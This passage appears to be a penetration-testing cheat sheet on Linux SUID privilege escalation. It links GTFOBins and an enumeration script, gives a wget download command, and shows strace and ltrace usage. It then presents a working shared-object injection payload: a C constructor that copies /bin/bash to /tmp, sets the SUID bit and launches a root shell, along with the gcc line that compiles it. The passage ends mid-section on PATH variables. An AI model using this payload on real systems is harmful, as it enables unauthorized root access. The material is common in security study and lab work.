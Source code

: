 Check for easy wins: [https://gtfobins.github.io/](https://gtfobins.github.io/)

This script is great: [https://github.com/Anon-Exploiter/SUID3NUM](https://github.com/Anon-Exploiter/SUID3NUM)

```text
wget https://raw.githubusercontent.com/Anon-Exploiter/SUID3NUM/master/suid3num.py
```

```text
# Running strace against a command:
strace -v -f -e execve <command> 2>&1 | grep exec

# Running ltrace against a command:
ltrace <command>
```

### Shared object injection

Sometimes executables use third party shared objects, which we are able to hijack and run our malicious code, with permissions of original executable.

You can run `strings` on SUID executables, then look for shared object paths.

Also `strace` can show objects used by the executable.

```text
strace <executable> 2>&1
strace <executable> 2>&1 | grep -i -E "open|access|no such file"
```

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject(){
    system("cp /bin/bash /tmp/yz && chmod +s /tmp/yz && /tmp/yz -p");
}
```

Compile shared object with gcc.

```text
gcc -shared -fPIC -o <output> shared_object.c
```

### Binary simlinks

[https://packetstormsecurity.com/files/139750/Nginx-Root-Privilege-Escalation.html](https://packetstormsecurity.com/files/139750/Nginx-Root-Privilege-Escalation.html)

### Enviromental variables \(PATH\)

Find anything related to enviromental variables\(PATH, etc...\)

```text
strings <executable>
```
